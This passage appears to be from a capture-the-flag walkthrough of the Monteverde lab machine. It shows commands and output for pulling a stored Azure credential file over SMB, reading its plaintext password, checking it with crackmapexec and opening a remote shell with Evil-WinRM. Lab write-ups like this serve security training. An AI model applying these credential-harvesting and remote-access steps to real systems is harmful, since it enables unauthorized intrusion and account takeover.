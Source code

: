 

There's a file at `\\10.10.10.172\mhope\azure.xml`. I'll grab it with
`smbclient`:



    root@kali# smbclient -U SABatchJobs //10.10.10.172/users$ SABatchJobs -c 'get mhope/azure.xml azure.xml'
    getting file \mhope\azure.xml of size 1212 as azure.xml (24.7 KiloBytes/sec) (average 24.7 KiloBytes/sec)



It contains a password:



    <Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
      <Obj RefId="0">
        <TN RefId="0">
          <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
          <T>System.Object</T>
        </TN>
        <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
        <Props>
          <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
          <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
          <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
          <S N="Password">4n0therD4y@n0th3r$</S>
        </Props>
      </Obj>
    </Objs>



### Shell Over WinRM

Since that configuration file was in mhope's directory, I'll guess that
the creds are associated with that user. `crackmapexec` shows that not
only is that right, but that they will work over WinRM:



    root@kali# crackmapexec winrm 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'
    WINRM       10.10.10.172    5985   MONTEVERDE       [*] http://10.10.10.172:5985/wsman
    WINRM       10.10.10.172    5985   MONTEVERDE       [+] MEGABANK\mhope:4n0therD4y@n0th3r$ (Pwn3d!)



I'll grab a shell with
[Evil-WinRM](https://github.com/Hackplayers/evil-winrm):



    root@kali# evil-winrm.rb -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'

    Info: Starting Evil-WinRM shell v1.7

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\mhope\Documents>
